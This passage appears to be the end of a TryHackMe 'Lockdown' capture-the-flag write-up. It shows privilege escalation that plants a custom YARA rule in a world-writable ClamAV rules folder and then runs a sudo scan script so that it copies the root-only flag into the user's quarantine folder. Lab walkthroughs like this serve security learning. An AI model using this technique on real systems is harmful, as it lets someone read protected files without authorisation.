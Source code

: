 So, to check for viruses is using `YARA rules`... You can read more about this in this [link](https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/).

But basically we can create out own `YARA` rule to read the root's flag, like this:

```bash
cyrus@lockdown:/tmp$ cat rule.yar
rule PWNED
{
  strings:
    $a = "root"
    $b = "THM"
    
  condition:
    $b or $a
}
```
This rule will search for any file with the `strings` THM or root.

Now let's copy this rule to the folder where the script is looking for the DBs and Rules...
```bash
cyrus@lockdown:/tmp$ cd /var/lib/clamav
cyrus@lockdown:/var/lib/clamav$ ls -la
total 16
drwxrwxrwx  2 clamav clamav 4096 Oct 23 10:47 .
drwxr-xr-x 45 root   root   4096 Jul 30 20:30 ..
-rw-r--r--  1 root   root     46 Jul 23 20:07 main.hdb
-rw-r--r--  1 root   root     69 May 11 04:26 mirrors.dat
cyrus@lockdown:/var/lib/clamav$ cp /tmp/rule.yar .
```
Great, let's now run the script with sudo, and let's use the path to the root's flag!

```bash
cyrus@lockdown:/var/lib/clamav$ sudo /opt/scan/scan.sh
Enter path: /root/root.txt
/root/root.txt: YARA.CheckFileName.UNOFFICIAL FOUND
/root/root.txt: copied to '/home/cyrus/quarantine/root.txt'

----------- SCAN SUMMARY -----------
Known viruses: 2
Engine version: 0.103.2
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.018 sec (0 m 0 s)
Start Date: 2021:10:23 11:00:49
End Date:   2021:10:23 11:00:49
```
The exploit worked as expected! We now have a file in "quarantine", and this file is the root's flag! So let's read it!!!
```bash
cyrus@lockdown:/var/lib/clamav$ cat /home/cyrus/quarantine/root.txt
THM{[REDACTED]}
```
And we rooted the machine!

That's all from my side, hope you find this helpful!